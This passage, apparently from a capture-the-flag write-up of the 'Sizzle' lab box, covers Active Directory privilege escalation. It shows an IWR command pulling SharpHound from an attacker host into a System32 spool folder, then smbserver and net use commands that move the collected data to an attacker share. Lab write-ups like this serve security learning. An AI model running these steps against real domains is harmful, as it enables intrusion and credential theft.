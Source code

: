 ## Privilege Escalation [ Kerberoasting and DCSync Attack ]

⇒ We will be downloading and running sharphound.exe in **`C:\Windows\System32\spool\drivers\color`**

- Uploading sharphound.exe to the machine :

**IWR -Uri http://10.10.14.8/SharpHound.exe -Outfile Sharphound.exe**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2013.png)

- Running it then downloading the zip file :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2014.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Sizzle%20Box%20820989b0557d46f4bd5054fb500ba254/Untitled%2014.png)

- We will be using smbserver to transfer the file to our system

```
smbserver.py enox . -smb2support -username enox -password enox

net use x: \\10.10.14.19\enox /user:enox enox
```
